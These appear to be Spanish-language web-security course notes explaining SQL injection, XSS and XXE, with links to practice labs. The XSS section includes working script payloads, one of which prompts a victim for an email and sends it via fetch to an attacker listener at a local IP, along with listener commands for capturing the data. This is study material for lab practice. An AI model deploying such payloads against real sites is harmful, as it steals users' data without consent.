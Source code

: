# SQL Injection (SQLI)
SQL Injection (SQLI) es una técnica de ataque utilizada para explotar vulnerabilidades en aplicaciones web que no validan adecuadamente la entrada del usuario en la consulta SQL que se envía a la base de datos. Los atacantes pueden utilizar esta técnica para ejecutar consultas SQL maliciosas y obtener información confidencial, como nombres de usuario, contraseñas y otra información almacenada en la base de datos.

Las inyecciones SQL se producen cuando los atacantes insertan código SQL malicioso en los campos de entrada de una aplicación web. Si la aplicación no valida adecuadamente la entrada del usuario, la consulta SQL maliciosa se ejecutará en la base de datos, lo que permitirá al atacante obtener información confidencial o incluso controlar la base de datos.

Hay varios tipos de inyecciones SQL, incluyendo:

Inyección SQL basada en errores: Este tipo de inyección SQL aprovecha errores en el código SQL para obtener información. Por ejemplo, si una consulta devuelve un error con un mensaje específico, se puede utilizar ese mensaje para obtener información adicional del sistema.
Inyección SQL basada en tiempo: Este tipo de inyección SQL utiliza una consulta que tarda mucho tiempo en ejecutarse para obtener información. Por ejemplo, si se utiliza una consulta que realiza una búsqueda en una tabla y se añade un retardo en la consulta, se puede utilizar ese retardo para obtener información adicional
Inyección SQL basada en booleanos: Este tipo de inyección SQL utiliza consultas con expresiones booleanas para obtener información adicional. Por ejemplo, se puede utilizar una consulta con una expresión booleana para determinar si un usuario existe en una base de datos.
Inyección SQL basada en uniones: Este tipo de inyección SQL utiliza la cláusula “UNION” para combinar dos o más consultas en una sola. Por ejemplo, si se utiliza una consulta que devuelve información sobre los usuarios y se agrega una cláusula “UNION” con otra consulta que devuelve información sobre los permisos, se puede obtener información adicional sobre los permisos de los usuarios.
Inyección SQL basada en stacked queries: Este tipo de inyección SQL aprovecha la posibilidad de ejecutar múltiples consultas en una sola sentencia para obtener información adicional. Por ejemplo, se puede utilizar una consulta que inserta un registro en una tabla y luego agregar una consulta adicional que devuelve información sobre la tabla.
Cabe destacar que, además de las técnicas citadas anteriormente, existen muchos otros tipos de inyecciones SQL. Sin embargo, estas son algunas de las más populares y comúnmente utilizadas por los atacantes en páginas web vulnerables.

Asimismo, es necesario hacer una breve distinción de los diferentes tipos de bases de datos existentes:

Bases de datos relacionales: Las inyecciones SQL son más comunes en bases de datos relacionales como MySQL, SQL Server, Oracle, PostgreSQL, entre otros. En estas bases de datos, se utilizan consultas SQL para acceder a los datos y realizar operaciones en la base de datos.
Bases de datos NoSQL: Aunque las inyecciones SQL son menos comunes en bases de datos NoSQL, todavía es posible realizar este tipo de ataque. Las bases de datos NoSQL, como MongoDB o Cassandra, no utilizan el lenguaje SQL, sino un modelo de datos diferente. Sin embargo, es posible realizar inyecciones de comandos en las consultas que se realizan en estas bases de datos. Esto lo veremos unas clases más adelante.
Bases de datos de grafos: Las bases de datos de grafos, como Neo4j, también pueden ser vulnerables a inyecciones SQL. En estas bases de datos, se utilizan consultas para acceder a los nodos y relaciones que se han almacenado en la base de datos.
Bases de datos de objetos: Las bases de datos de objetos, como db4o, también pueden ser vulnerables a inyecciones SQL. En estas bases de datos, se utilizan consultas para acceder a los objetos que se han almacenado en la base de datos.
Es importante entender los diferentes tipos de inyecciones SQL y cómo pueden utilizarse para obtener información confidencial y controlar una base de datos. Los desarrolladores deben asegurarse de validar adecuadamente la entrada del usuario y de utilizar técnicas de defensa, como la sanitización de entrada y la preparación de consultas SQL, para prevenir las inyecciones SQL en sus aplicaciones web.

A continuación, se proporciona el enlace a la utilidad online de ‘ExtendsClass‘ que utilizamos en esta clase:

ExtendsClass MySQL Online: https://extendsclass.com/mysql-online.html



# Cross-Site Scripting (XSS) [1/2]

Una vulnerabilidad XSS (Cross-Site Scripting) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

Reflejado (Reflected): Este tipo de XSS se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
Almacenado (Stored): Este tipo de XSS se produce cuando un atacante es capaz de almacenar código malicioso en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
DOM-Based: Este tipo de XSS se produce cuando el código malicioso se ejecuta en el navegador del usuario a través del DOM (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.
Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de Github correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

secDevLabs: https://github.com/globocom/secDevLabs


A3 - Injection (XSS)	Python	Gossip World


kali)-[~/…/secDevLabs/owasp-top10-2021-apps/a3/gossip-world]
└─$ sudo make install  

<script>alert('XSS')</script>



<script>
    var email = prompt("Ingrese su correo");
   if (email == null || email == "") {
    alert("Es necesario ingresar su correo");
    }else {
        fetch("http://192.168.219.132:9000/?email="+email);
    }
</script>

python3 -m http.server 9000


keylogerjs 
python3 -m http.server 9000 2>&1 | grep GET 

python3 -m http.server 9000 2>&1 | grep 'GET /\K[^.*\s]+'

# XML External Entity Injection (XXE)

Cuando hablamos de XML External Entity (XXE) Injection, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una entidad XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “ir a ciegas” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un Document Type Definition (DTD) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo SSRF (Server-Side Request Forgery). Esta técnica de ataque puede permitir a un atacante escanear puertos internos en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener información sensible o incluso tomar el control de los servicios internos.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

XXELab: https://github.com/jbarone/xxelab